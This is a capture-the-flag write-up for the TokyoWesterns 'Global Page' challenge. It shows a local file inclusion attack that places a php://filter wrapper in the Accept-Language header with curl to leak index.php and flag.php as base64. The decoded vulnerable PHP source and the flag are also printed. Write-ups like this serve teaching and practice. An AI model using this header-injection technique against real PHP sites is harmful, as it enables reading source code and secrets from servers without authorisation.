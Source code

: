 # Global Page WriteUp

The "quest" begin with a link wihtout any hint or sentence: [link to Global Page.](http://globalpage.chal.ctf.westerns.tokyo/)

![Landing page](images/Globalpageindex.png)
The Landing Page show one deleted and two followable links.

Trying to follow ctf or tokyo, the browser makes a GET request to a php as parameter(page) the followed link(ctf or tokyo) -> `http://globalpage.chal.ctf.westerns.tokyo/?page=ctf` or `http://globalpage.chal.ctf.westerns.tokyo/?page=tokyo`.


![Page](images/page.png)

Mh! Warning: include() => suggest with high probability a **LFI** attack.
Before continue one consideration: the include function try to open a file in the page parameter directory with the language specified in the Accept-Language Header Request.

Every LFI page parameter results in a correctly input sanity check(escape . and /).

What can we do? Attach a LFI in the Accept-Language and build the properly LFI.

`pirate$ curl 'http://globalpage.chal.ctf.westerns.tokyo/?page=php:' -H "Accept-Language:/filter/convert.base64-encode/resource=index"` => result in the GET Request `http://globalpage.chal.ctf.westerns.tokyo/?page=php://filter/convert.base64-encode/resource=index.php` that encode the index.php in base64.

Decode the base64 index.php and obtain:
```
<?php
if (!defined('INCLUDED_INDEX')) {
define('INCLUDED_INDEX', true);
ini_set('display_errors', 1);
include "flag.php"; <-- FLAG
?>
<!doctype html>
<html>
<head>
<meta charset=utf-8>
<title>Global Page</title>
<style>
.rtl {
  direction: rtl;
}
</style>
</head>

<body>
<?php
$dir = "";
if(isset($_GET['page'])) {
	$dir = str_replace(['.', '/'], '', $_GET['page']);
}

if(empty($dir)) {
?>
<ul>
	<li><a href="/?page=tokyo">Tokyo</a></li>
	<li><del>Westerns</del></li>
	<li><a href="/?page=ctf">CTF</a></li>
</ul>
<?php
}
else {
	foreach(explode(",", $_SERVER['HTTP_ACCEPT_LANGUAGE']) as $lang) {
		$l = trim(explode(";", $lang)[0]);
?>
<p<?=($l==='he')?" class=rtl":""?>>
<?php
		include "$dir/$l.php";
?>
</p>
<?php
	}
}
?>
</body>
</html>
<?php
}
?>
```

_include "flag.php"_, so one more time LFI:
`pirate$ curl 'http://globalpage.chal.ctf.westerns.tokyo/?page=php:' -H "Accept-Language:/filter/convert.base64-encode/resource=flag"` => result in the GET Request `http://globalpage.chal.ctf.westerns.tokyo/?page=php://filter/convert.base64-encode/resource=flag.php`.

Decode base64 and woitlà:

```
pirate$ echo "PD9waHAKJGZsYWcgPSAiVFdDVEZ7SV9mb3VuZF9zaW1wbGVfTEZJfSI7Cg" | base64 -D -
<?php
	$flag = "TWCTF{I_found_simple_LFI}";
```








